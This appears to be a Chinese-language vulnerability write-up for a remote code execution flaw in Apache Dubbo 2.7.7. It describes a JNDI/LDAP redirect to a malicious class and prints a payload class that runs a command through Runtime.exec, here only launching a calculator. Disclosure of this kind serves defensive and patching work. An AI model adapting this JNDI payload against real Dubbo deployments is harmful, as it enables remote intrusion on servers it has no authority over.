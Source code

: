 # Dubbo 2.7.7 Remote Code Execute

## 版本号: 2.7.7

## poc使用JNDI的利用方式远程执行代码

## 漏洞描述:

我们发现Dubbo2.7.7存在远程代码执行漏洞，该远程代码执行漏洞是由于在修复CVE-2020-1948时的错误引起。以至于在新版本上依旧存在代码执行的问题。

## 漏洞证明详细：
    在本地新建ldap服务，将请求重定向到http服务的恶意类。
    其中恶意类为本地弹出计算器，Cals.java源码：
    ···
        import java.io.IOException;

public class Calc {
    
    public Calc() {
        try {
            Runtime.getRuntime().exec("calc");
        } catch (IOException e) {
            e.printStackTrace();
        }
    }
    
    public static void main(String[] args) {
        Calc e = new Calc();
    }
    
}
    ···


